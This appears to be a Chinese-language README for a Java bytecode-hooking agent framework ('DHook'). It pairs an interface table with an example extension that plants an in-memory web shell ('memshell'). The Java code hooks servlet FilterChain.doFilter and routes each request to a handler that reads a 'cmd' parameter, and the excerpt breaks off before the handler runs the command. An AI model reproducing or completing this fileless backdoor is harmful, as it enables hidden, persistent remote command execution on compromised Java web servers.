 ### Interface IDHookExtenderCallbacks

| Modifier and Type | Method and Description                                       |
| :---------------- | :----------------------------------------------------------- |
| `void`            | `registerExtenderCallbacks(IDHookExtenderCallbacks callbacks)` 该方法将会在插件加载时调用,注册一个`IDHookExtenderCallbacks `接口，默认调用其接口的多个方法，来为开发者提供想要的操作。 |
| `void`            | `onMethodExit(int opcode)`  在方法退出（return前）时修改代码 |
| `void`            | `onMethodEnter()` 在方法进入时修改代码 |
| `void`            | `onVisitCode()` 在方法运行过程中修改代码 |

## 案例

### memshell 内存马
```java
public class DHookExtender implements IDHookExtender {

    private IDHookExtenderCallbacks callbacks;

    public void registerExtenderCallbacks(IDHookExtenderCallbacks callbacks) {
        ArrayList<String> list = new ArrayList<>();
        list.add("javax/servlet/FilterChain.doFilter(Ljavax/servlet/ServletRequest;Ljavax/servlet/ServletResponse;)V");
        callbacks.setExtensionHooks(list);
        callbacks.setExtensionName("memshell");
        callbacks.setExtensionDesc("内存马");
        this.callbacks = callbacks;
    }

    public void onMethodExit(int opcode) {}

    public void onMethodEnter() {
        //将当前参数（此处为request和response）加入调用栈
        callbacks.pushParameter();
        //将当前hook className加入调用栈
        callbacks.pushObject(callbacks.getHookClassName());
        //将当前hook method加入调用栈
        callbacks.pushObject( callbacks.getHookMethod());
        //将当前hook desc加入调用栈
        callbacks.pushObject(callbacks.getHookDesc());
        //调用静态方法
        this.callbacks.invokeStatic(ShellHandler.class, "doHook", "([Ljava/lang/Object;Ljava/lang/String;Ljava/lang/String;Ljava/lang/String;)V");
    }
}

public class ShellHandler {
    protected static final Class[] EMPTY_CLASS = new Class[]{};
    protected static final Class[] STRING_CLASS = new Class[]{String.class};
    private static final ThreadLocal<Boolean> longThreadLocal = new ThreadLocal<>();

    public static void doHook(Object[] args, String className, String method, String desc) {
        //避免一个请求多次触发
        if (longThreadLocal.get() == null) {
            longThreadLocal.set(true);
        } else {
            return;
        }
        //反射调用获取参数
        String c = (String) invokeMethod(args[0], args[0].getClass(), "getParameter", STRING_CLASS, "cmd");
```